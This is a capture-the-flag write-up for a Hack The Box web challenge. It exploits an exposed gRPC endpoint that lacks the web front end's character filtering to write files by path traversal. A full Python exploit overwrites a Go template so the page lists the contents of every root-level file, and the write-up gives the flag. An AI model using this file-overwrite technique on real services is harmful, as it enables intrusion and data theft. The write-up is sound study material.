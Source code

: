 # Testimonial

As the leader of the Revivalists you are determined to take down the KORP, you and the best of your faction's hackers have set out to deface the official KORP website to send them a message that the revolution is closing in.

## Writeup

The site interact with a **gRPC** server, that has the port exposed.

If we interact with the **gPRC** server by the site, we have this additional check:

```go
func (c *Client) SendTestimonial(customer, testimonial string) error {
	ctx := context.Background()
	// Filter bad characters.
	for _, char := range []string{"/", "\\", ":", "*", "?", "\"", "<", ">", "|", "."} {
		customer = strings.ReplaceAll(customer, char, "")
	}

	_, err := c.SubmitTestimonial(ctx, &pb.TestimonialSubmission{Customer: customer, Testimonial: testimonial})
	return err
}
```

So we can use directly the port of **gPRC** to send our payload.

The **gPRC** server have a stub called **SubmitTestimonial** that is used to write an file inside **/public/testimonials** directory:

```go
func (s *server) SubmitTestimonial(ctx context.Context, req *pb.TestimonialSubmission) (*pb.GenericReply, error) {
	if req.Customer == "" {
		return nil, errors.New("Name is required")
	}
	if req.Testimonial == "" {
		return nil, errors.New("Content is required")
	}

	err := os.WriteFile(fmt.Sprintf("public/testimonials/%s", req.Customer), []byte(req.Testimonial), 0644)
	if err != nil {
		return nil, err
	}

	return &pb.GenericReply{Message: "Testimonial submitted successfully"}, nil
}
```

So this application is vulnerable to **arbitrary file write**

We can use it to rewrite the **index.templ** file in order to print the flag:

```go
package home

import (
	"htbchal/view/layout"
	"io/fs"	
	"fmt"
	"os"
)

templ Index() {
	@layout.App(true) {
        @Testimonials()
	}
}

func GetTestimonials() []string {
	fsys := os.DirFS("/")	
	files, err := fs.ReadDir(fsys, ".")		
	if err != nil {
		return []string{fmt.Sprintf("Error reading testimonials: %v", err)}
	}
	var res []string
	for _, file := range files {
		fileContent, _ := fs.ReadFile(fsys, file.Name())
		res = append(res, string(fileContent))		
	}
	return res
}

templ Testimonials() {
  for _, item := range GetTestimonials() {
    <div class="col-md-4">
        <div class="card mb-4">
            <div class="card-body">
                <p class="card-text">"{item}"</p>
            </div>
        </div>
    </div>
  }
}
```

Write the **ptypes.proto** file:

```proto
syntax = "proto3";

option go_package = "/pb";

service RickyService {
    rpc SubmitTestimonial(TestimonialSubmission) returns (GenericReply) {}
}

message TestimonialSubmission {
    string customer = 1;
    string testimonial = 2;
}

message GenericReply {
    string message = 1;
}
```

Launch this command to generate the python code to interact with **gRPC**:

```bash
python -m grpc_tools.protoc --proto_path=. ./ptypes.proto --python_out=. --grpc_python_out=.
```

Now we have **ptypes_pb2_grpc.py** and **ptypes_pb2.py**, let's write the exploit:

```python
import grpc
import ptypes_pb2_grpc as pb2_grpc
import ptypes_pb2 as pb2

payload = """
package home

import (
	"htbchal/view/layout"
	"io/fs"	
	"fmt"
	"os"
)

templ Index() {
	@layout.App(true) {
        @Testimonials()
	}
}

func GetTestimonials() []string {
	fsys := os.DirFS("/")	
	files, err := fs.ReadDir(fsys, ".")		
	if err != nil {
		return []string{fmt.Sprintf("Error reading testimonials: %v", err)}
	}
	var res []string
	for _, file := range files {
		fileContent, _ := fs.ReadFile(fsys, file.Name())
		res = append(res, string(fileContent))		
	}
	return res
}

templ Testimonials() {
  for _, item := range GetTestimonials() {
    <div class="col-md-4">
        <div class="card mb-4">
            <div class="card-body">
                <p class="card-text">"{item}"</p>
            </div>
        </div>
    </div>
  }
}
"""

class PtypesClient(object):
    """
    Client for gRPC functionality
    """

    def __init__(self):
        self.host = 'localhost'
        self.server_port = 50045

        # instantiate a channel
        self.channel = grpc.insecure_channel(
            '{}:{}'.format(self.host, self.server_port))

        # bind the client and the server
        self.stub = pb2_grpc.RickyServiceStub(self.channel)

    def get_url(self, customer, testimonial):
        """
        Client function to call the rpc for SubmitTestimonial
        """
        message = pb2.TestimonialSubmission(customer=customer, testimonial=testimonial)
        print(f'{message}')
        return self.stub.SubmitTestimonial(message)


if __name__ == '__main__':
    client = PtypesClient()

    filename = "../../view/home/index.templ"

    result = client.get_url(customer=filename, testimonial=payload)
    print(f'{result}')
```

Now go to the site and the flag is:

```
HTB{w34kly_t35t3d_t3mplate5}
```